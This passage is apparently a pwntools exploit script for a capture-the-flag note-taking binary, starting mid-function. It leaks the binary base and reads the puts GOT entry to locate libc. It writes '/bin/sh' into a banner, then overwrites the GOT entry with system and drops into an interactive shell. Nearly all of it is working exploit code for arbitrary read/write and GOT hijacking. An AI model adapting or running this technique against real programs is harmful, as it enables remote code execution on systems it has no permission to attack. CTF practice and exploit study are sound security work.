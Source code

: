     	prev_at_offset = edit_note_without_edit(index)
    	con.sendlineafter(b'(up to 16 chars): ', content)
    	return prev_at_offset
    
    
    def edit_note_without_edit(index: int):
    	menu_pick(b'2')
    
    	index = str(index).encode()
    
    
    	con.sendlineafter(b'Offset: ', index)
    	a = con.recvuntil(b':\n----\n')
    	prev_at_offset = con.recvuntil(b'\n----\n[>] New content')[:-len(b'\n----\n[>] New content')]
    
    	#The reason I chose such a long recuntil is because I need to choose one that is longer than 0x10 so it won't
    	#perceive what I recived as the recvuntil and create bugs. (for example if you do banner and \n----- it would cause problems)
    	
    	return prev_at_offset
    
    def show_note():
    	menu_pick(b'3')
    	content = con.recvline()[len('Content: '):-1]
    	return content
    
    def main():
    	base = leak_base()
    	print(hex(base))
    	
    	#putting 0 in note:
    	for i in range(0x10):
    		res = new_note(b'Who are you?')
    	new_note(b'woho now there is 0')
    
    	#now in note there is 0
    	#puting /bin/sh to the banner
    	edit_note(banner + base, b'/bin/sh\x00' )
    
    	#try with to get the correct libc
    	#https://libc.blukat.me/
    	#https://libc.rip/
    	puts_addr = u64(edit_note_without_edit(elf.got['puts'] + base)[:8])
    	print(f'puts addr is {hex(puts_addr)=}')
    	puts_offset = int(input('puts offset in libc: '), 16)
    	system_offset = int(input('system offset in libc: '), 16)
    
    	libc_base = puts_addr - puts_offset
    	print(hex(libc_base))
    
    
    	con.sendlineafter(b'(up to 16 chars): ', p64(system_offset + libc_base))
    
    	con.interactive()
    
    
    if __name__ == '__main__':
    	main()
    